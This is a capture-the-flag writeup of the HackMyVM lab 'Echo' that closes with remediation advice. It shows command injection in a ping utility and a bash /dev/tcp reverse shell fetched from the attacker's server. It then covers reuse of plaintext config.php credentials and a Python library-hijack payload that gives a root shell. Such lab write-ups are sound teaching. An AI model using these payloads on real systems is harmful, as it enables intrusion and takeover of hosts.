




In this writeup, we will be analyzing Echo, an entry level machine that offers a perfect playground for learning vulnerability chaining. Free of complex rabbit holes, this Easy target focuses purely on foundational skills. The exploit path takes you from an unauthenticated web vulnerability to initial access, followed by privilege escalation via password reuse and library hijacking to achieve full root control.

Crushed this box and grabbed the root flag already? Awesome work! If you ran into some trouble along the way, let’s break down the exact path to compromise.

- **Machine Link:** [HackMyVM - Echo](https://downloads.hackmyvm.eu/echo.zip)
- **Difficulty:** Easy
- **Core Concepts:** Network Enumeration, Command Injection, Credential Hunting

## Getting started
Before firing off any tools, it is crucial to stay organized. I started by creating a dedicated project directory for this machine inside the `Documents` folder to save all logs, scans, and notes.
```bash
┌──(emvee㉿kali)-[~]
└─$ cd Documents

┌──(emvee㉿kali)-[~/Documents]
└─$ mkdir Echo   

┌──(emvee㉿kali)-[~/Documents]
└─$ cd Echo  
```
Next, I needed to check my own network configuration to understand the subnet layout. Running `ip a` reveals the configuration of the network interfaces.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ ip a        
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:24:46:73 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.3/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 340sec preferred_lft 340sec
    inet6 fe80::a00:27ff:fe24:4673/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```
The interface `eth0` shows that the Kali attacking machine is assigned the IP address **10.0.2.3** within a `/24` subnet (`10.0.2.0/24`).

With the subnet identified, I used `fping` to quickly map live hosts on the network. The `-a` flag displays alive targets, and `-g` generates the target list from the CIDR network range. I redirected standard error (`2> /dev/null`) to keep the output clean.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ fping -ag 10.0.2.0/24 2> /dev/null 
10.0.2.1
10.0.2.2
10.0.2.3
10.0.2.34

```
There are shown 4 IP addressess. Let's explain them to identify the target on our virtual network
- `10.0.2.1` and `10.0.2.2` are typical VirtualBox gateway/DHCP infrastructure IPs.
- `10.0.2.3` is my attacking machine.
- **`10.0.2.34`** is the only other active host, making it our target.

I saved this target IP into a local environment variable `$ip` to streamline my subsequent commands:
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ ip=10.0.2.34
```
With the target IP locked in, it was time to perform a full port scan using nmap.

## Enumeration
I ran a comprehensive scan checking all 65,353 ports (`-p-`), running default scripts (`-sC`), and attempting service version detection (`-sV`) at an aggressive but reliable speed template (`-T4`).
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ sudo nmap -sC -sV -T4 -p- $ip 
[sudo] password for emvee: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-10-13 22:20 +0200
Nmap scan report for 10.0.2.34
Host is up (0.0017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/backups/ /config.php
|_http-title: Echo Diagnostics | Network Appliance
|_http-server-header: Apache/2.4.66 (Ubuntu)
MAC Address: 08:00:27:81:29:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds

```
The scan returned two open ports, revealing a focused attack surface:
- Port 22 (SSH): Running OpenSSH 10.2p1 on Ubuntu. This is a highly resilient and recent version of OpenSSH. Exploiting it directly is highly unlikely unless we later uncover leaked credentials or a private SSH key.
- Port 80 (HTTP): Running Apache httpd 2.4.66. Nmap's HTTP scripts immediately uncovered a robots.txt file hiding two potentially juicy directories/files: 
    - /backups/ 
    - /config.php. 

The page title also indicates we are dealing with an "Echo Diagnostics | Network Appliance" portal.
To gather more granularity on the web application component, I executed whatweb against the target.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ whatweb http://$ip                                    
http://10.0.2.34 [200 OK] Apache[2.4.66], Country[RESERVED][ZZ], Email[clara@echo.hmv], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.66 (Ubuntu)], IP[10.0.2.34], Title[Echo Diagnostics | Network Appliance]
```
The whatweb output confirmed the backend stack and leaked an interesting email address: clara@echo.hmv. This also suggests that the internal domain name might be echo.hmv.

Next, I manually inspected the robots.txt file using curl to verify the disallowed entries.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ curl http://$ip/robots.txt                                                   
User-agent: *
Disallow: /backups/
Disallow: /config.php

# Echo Appliance Portal - echo.hmv

```
The comment at the bottom confirms the domain echo.hmv. Since we have an exposed /backups/ directory and a /config.php file, our next logical move is to map out this web application and look for leaked configuration parameters or backup archives.

To further scrutinize the web server configuration and uncover low-hanging fruit, I launched nikto against the target.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ nikto -h http://$ip
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.34
+ Target Hostname:    10.0.2.34
+ Target Port:        80
+ Platform:           Unknown
+ Start Time:         2026-10-13 22:23:35 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.66 (Ubuntu)
+ ERROR: Failed to check for updates: 403
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [750500] /backups/: Directory indexing found.
+ [999996] /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ [013587] /: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [999967] /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ [000997] /config.php: PHP Config file may contain database IDs and passwords.

```
The scan finished and has some interesting results, explicitly highlighting that Directory Indexing is enabled on the /backups/ directory. Furthermore, Nikto flagged the presence of /config.php, which routinely houses database credentials and internal API secrets in setups like this.

Navigating to the root directory in our browser reveals the main web interface: Echo Diagnostics Suite.

{: width="700" height="400" }


The application serves as an appliance management portal featuring a Remote ICMP Ping & Latency Diagnostics utility. On the right panel under Node Telemetry, it exposes critical configuration details: the backend uses an aggressive Regex Level 1 (Strict) security filter, and the main system administrator is identified as clara (clara@echo.hmv).

To understand how the utility behaves under intended use, I submitted my own local IP address (10.0.2.3) to run a default probe.
{: width="700" height="400" }


The appliance executed a standard system ping utility and reflected the terminal output back onto the dashboard. This setup strongly implied that the system evaluates user input directly inside a low level system execution function (such as shell_exec or system in PHP).

To test for an OS Command Injection flaw, I appended an ampersand operator (&) followed by the whoami command into the input field: `10.0.2.3&whoami`.

The command was successfully concatenated and executed by the shell, reflecting www-data right in the middle of the ICMP statistics.

{: width="700" height="400" }


## Initial foothold
With confirmed Remote Code Execution (RCE) via command injection, I moved forward to stage a reverse shell. First, I created a shell script named rev.sh locally on my attacker machine.

```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ nano rev.sh           
                                                                                                                    
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ cat rev.sh              
bash -c 'bash -i >& /dev/tcp/10.0.2.3/443 0>&1'
                                                                                                                    
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.2.34 - - [13/Oct/2026 22:31:45] "GET /rev.sh HTTP/1.1" 200 -

```

With my local web server waiting on port 80, I injected a command payload into the web panel to pull down the script onto the victim appliance: `10.0.2.3&bash rev.sh`

Simultaneously, I initiated a Netcat listener on port 443 to catch the returning execution thread.
{: width="700" height="400" }


The reverse shell connection landed successfully, dropping me into the active web directory as the low-privilege www-data account.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ nc -lvp 443   
listening on [any] 443 ...
10.0.2.34: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.34] 38586
bash: cannot set terminal process group (760): Inappropriate ioctl for device
bash: no job control in this shell
www-data@echo:/var/www/html$ ll
ll
/usr/lib/python3/dist-packages/CommandNotFound/db/db.py:6: Warning: W:Unable to read /etc/apt/apt.conf.d/ - DirectoryExists (13: Permission denied)
  apt_pkg.init()
/usr/lib/python3/dist-packages/CommandNotFound/CommandNotFound.py:139: Warning: W:Unable to read /etc/apt/apt.conf.d/ - DirectoryExists (13: Permission denied)
  apt_pkg.init()
ll: command not found
www-data@echo:/var/www/html$ ls
ls
backups
config.php
index.html
index.php
rev.sh
robots.txt
www-data@echo:/var/www/html$    
```
Now that I had stable terminal access, I immediately peeked into the config.php file flagged earlier by Nikto to check for database settings or reused administrator credentials.
```bash
www-data@echo:/var/www/html$ cat config.php
cat config.php
<?php
// Echo Appliance Database & Administration Configuration
// Maintainer: clara@echo.hmv

define('DB_HOST', 'localhost');
define('DB_PORT', 3306);
define('DB_USER', 'clara');
define('DB_PASS', 'EchoSummer2026!');
define('DB_NAME', 'echo_diagnostics');

define('SYSTEM_ADMIN', 'clara');
define('ENVIRONMENT', 'production');
?>
www-data@echo:/var/www/html$ 

```
The configuration file exposed valid plaintext database credentials for the user clara: `EchoSummer2026!`.

With the plaintext password extracted from config.php, I checked the /home directory to see what user profiles existed on the server.
```bash
www-data@echo:/var/www/html$ ls -ahlR /home
ls -ahlR /home
/home:
total 16K
drwxr-xr-x  4 root   root   4.0K Sep 10 13:17 .
drwxr-xr-x 20 root   root   4.0K Sep  6 10:35 ..
drwxr-x---  3 clara  clara  4.0K Sep 10 13:18 clara
drwxr-x---  3 ubuntu ubuntu 4.0K Sep 10 13:18 ubuntu
ls: cannot open directory '/home/ubuntu': Permission denied
ls: cannot open directory '/home/clara': Permission denied
www-data@echo:/var/www/html$ 
```
## Lateral movement to Clara
Since the `/home/clara` directory was restricted, I used the su command to switch users, trying the password found in the database config file (`EchoSummer2026!`).
```bash
www-data@echo:/var/www/html$ su clara
su clara
Password: EchoSummer2026!
whoami
clara
cd ~
ls
user.txt
cat user.txt    
HMV{HERE IS TH USER FLAG}
```
The password reuse was successful. I managed to upgrade to the clara user account and read the user flag. To establish a more stable, interactive environment, I connected to the target via SSH using these credentials.
```bash
┌──(emvee㉿kali)-[~/Documents/Echo]
└─$ ssh clara@$ip                 
The authenticity of host '10.0.2.34 (10.0.2.34)' can't be established.
ED25519 key fingerprint is: SHA256:szWG4HvPrFuLDjY8fj9ctzkikE2x5/YODzhGcLxQGGE
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.34' (ED25519) to the list of known hosts.
clara@10.0.2.34's password: 
Welcome to Ubuntu 26.04.1 LTS (GNU/Linux 7.0.0-31-generic x86_64)

 * Documentation:  https://docs.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Oct 13 08:36:41 PM UTC 2026

  System load:  0.08               Processes:               111
  Usage of /:   18.4% of 19.51GB   Users logged in:         0
  Memory usage: 15%                IPv4 address for enp0s3: 10.0.2.34
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

27 updates can be applied immediately.
24 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

clara@echo:~$ 

```
Once logged into a fully stable SSH terminal session, I checked my sudo permissions using `sudo -l`.
```bash
clara@echo:~$ sudo -l
User clara may run the following commands on echo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/echo-report
```

## Privilege escalation
The output indicated that I could execute a custom binary/script located at `/usr/local/bin/echo-report` with full root privileges without providing a password. I closely inspected the properties and source code of this file.
```bash
clara@echo:~$ file /usr/local/bin/echo-report
/usr/local/bin/echo-report: Python script, ASCII text executable
clara@echo:~$ ls /usr/local/bin/echo-report
/usr/local/bin/echo-report
clara@echo:~$ ls -la /usr/local/bin/echo-report
-rwxr-xr-x 1 root root 523 Sep 10 13:17 /usr/local/bin/echo-report
clara@echo:~$ cat /usr/local/bin/echo-report
#!/usr/bin/env python3
import os
import sys

# Load internal reporting module
sys.path.insert(0, "/opt/echo")

try:
    import reporter
except ImportError as err:
    print(f"[-] Critical Error: Failed to import reporter module: {err}")
    sys.exit(1)

def main():
    print("==================================================")
    print("     Echo Appliance - System Diagnostics Summary  ")
    print("==================================================")
    reporter.run_report()

if __name__ == "__main__":
    main()
```
The script is a standard Python executable wrapper owned by root. However, analyzing the execution logic revealed a classic Python Library Hijacking / Path Injection vulnerability:
1. The script programmatically appends a directory to the beginning of the Python module search path array: `sys.path.insert(0, "/opt/echo")`.
2. It subsequently issues an import instruction for a custom package: `import reporter`.

Because Python checks paths sequentially starting from index 0, any script named `reporter.py` placed inside `/opt/echo` will override the standard or library definitions. I checked the directory permissions of `/opt/echo` to see if I had write access.
```bash
clara@echo:~$ ls -ld /opt/echo
drwxrwxr-x 3 root devs 4096 Sep 10 13:18 /opt/echo
```
While the directory is owned by root, the write permissions extend to the devs group. My current user had enough access to create files inside this directory. I exploited this path precedence flaw by manufacturing a malicious reporter.py script that spawns a root bash instance.
```bash
clara@echo:~$ echo 'import os' > /opt/echo/reporter.py
clara@echo:~$ echo 'def run_report():' >> /opt/echo/reporter.py
clara@echo:~$ echo '    os.system("/bin/bash")' >> /opt/echo/reporter.py
```
With the injection vector prepped, I ran the wrapper utility using sudo. The application searched `/opt/echo`, found my script, and executed the payload as root.
```bash
clara@echo:~$ sudo /usr/local/bin/echo-report
==================================================
     Echo Appliance - System Diagnostics Summary  
==================================================
root@echo:/home/clara# cd~
Command 'cd~' not found, did you mean:
  command 'cdo' from deb cdo (2.5.4-1)
  command 'cdb' from deb tinycdb (0.81-2build1)
  command 'cdw' from deb cdw (0.8.1-3build4)
  command 'cde' from deb cde (0.1+git9-g551e54d-3)
  command 'cdi' from deb cdo (2.5.4-1)
  command 'cd5' from deb cd5 (0.1-4build1)
  command 'cdp' from deb irpas (0.10-10build1)
  command 'cdv' from deb erlang-observer (1:27.3.4.6+dfsg-1)
Try: apt install <deb name>
root@echo:/home/clara# cat /root/root.txt
HMV{HERE IS THE ROOT FLAG}
root@echo:/home/clara# 

```
The shell dropped me straight into a root environment, allowing me to access `/root/root.txt` and successfully complete the machine.


## Final thoughts & remediation
The compromise of this appliance highlights how simple code injection vectors can escalate into full server takeovers due to insecure local script execution.

##### Key Weaknesses Exploited
- OS Command Injection: The diagnostics utility directly trusted and concatenated untrusted user inputs inside low-level system commands.
- Plaintext Password Storage: Storing sensitive administrative database credentials in plaintext inside a web configuration file allowed easy lateral privilege traversal.
- Insecure Library Paths: Hardcoding predictable, globally-writable directory paths into sys.path allows lower-privileged users to hijack modules and execute arbitrary actions in contexts where the wrapper script runs as root.

##### Remediation Strategies
1. Sanitize Inputs & Avoid Shell Invocation: Avoid using shell execution environments for utility diagnostics. If essential, strictly filter inputs using rigorous alpha-numeric regular expression filters, or utilize programmatic wrapper APIs that take inputs explicitly as separated arguments rather than raw strings.
2. Apply Least Privilege to Sudo Wrappers: Ensure directories appended to critical path tracking structures like sys.path are strictly owned by root and are not writable by normal service groups or accounts.
3. Protect Credentials: Move configuration credentials outside of public web-accessible roots and store database handles securely, utilizing localized socket connections or runtime environment context decryption keys where possible.